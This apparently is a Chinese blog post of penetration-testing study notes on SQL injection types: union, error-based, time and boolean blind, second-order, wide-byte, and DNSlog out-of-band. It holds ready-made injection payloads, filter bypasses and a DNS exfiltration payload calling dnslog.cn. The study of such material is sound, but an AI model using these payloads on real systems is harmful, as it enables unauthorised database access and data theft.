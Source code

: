 ```yaml
---
layout:     post
title:      SQL注入类型
subtitle:   SQL注入类型
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
    - SQL注入
---
```

# sql注入普通注入
该方法使用union select,适用于查询有显示的情况下

分为数字型和字符型，数字型没有单引号，字符型有引号

数字型测试流程：
（1）加单引号
id=3'会出现报错
（2）加and 1=1
id=3 and 1=1
(3)加and 1=2
id=3 and 1=2

字符型加单引号
name='admin''出现报错
加' and 1=1--+正常
加' and 1=2--+异常

判断列数
id=1 order by 4#报错
id=1 order by 3#正常
说明上面那个查询有3列

爆出数据库
id=-1 union select 1,database(),3--+
id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemeta#
id=-1 union select 1,group_concat(schema_name),3 from information_schema.tables where table_schema="kuming"
?id=-1' union select 1,group_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+

# sql报错注入
该方法使用floor()函数，rand()函数
extractvalue()
updatexml()

id=1' and select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))

(extractvalue(1,concat(0x7e,(select user()),0x7e)));

(updatexml(1,concat(0x7e,(select user()),0x7e),0x7e));

# sql延时注入
适用于既没有回显也没有报错
id=1' and if(ascii(substr(database(),1,1))=115,sleep(10),1)

ascii转为bin() hex() ord()
substr()转为mid() substring()
database()转为@@database
空字符 %09 %0a~%0d %a0 %20 
+-.
/--/

若substr中逗号过滤，使用 from for 即database() from 1 for 1
若if中逗号过滤 使用case then 即
case when ascii(mid(database() from 1 for 1)=115 then sleep(10) else 1 end

# sql布尔注入
也是适用于无回显，且无报错且无延时，使用布尔注入
id=1' and left(database(),1)='s' --+

like 'e%'
regexp "^s"

# 二次注入
以上都不行，因为将'转义了，一般用于白盒测试
参数进入数据库还原为1'
另一处引用这个数据
将1'从数据库中取出到SQL语句

例如注册用户名为admin'# 密码为123
修改admin'#的密码时
$ sql = "UPDATE users SET PASSWORD=’$ pass’ where username=’admin‘#’ and password=’$ curr_pass’ ";

# dnslog对外注入
用于测试网站把ip封掉
?id=1' and (select load_file(concat('\\',(select database()),'.682y4b.dnslog.cn/abc'))) --+
该服务器就会从test.682y4b.dnslog.cn/abc网站中下载文件，首先要进行dns即域名解析服务，从浏览器缓存中没发现，从系统缓存中没发现，从路由器缓存中没发现，从ISP即网络提供商的DNS缓存中没发现
访问根域名服务器，若无记录告诉管辖范围内顶级域名服务器IP.com .cn
访问顶级域名服务器 ，若无记录告诉权威（主）域名服务器IP xxx.com xxx.cn
访问权威域名服务器后查询自己的缓存，如果没有则进入下一级域名服务器中直到找到
保存结果到缓存

它访问test.682y4b.dnslog.cn/abc，会在 682y4b.dnslog.cn服务器中有一条DNS记录，找test.682y4b.dnslog.cn/abc
## 宽字节注入
由于使用了addslashes()函数
数据库设置编码模式为GBK
输入id=%df' union select 1,2,3 %23
%df经过转义为%df\'即 %df%5c%27
由于GBK编码，%df%5c编码成了运，单引号逃逸出来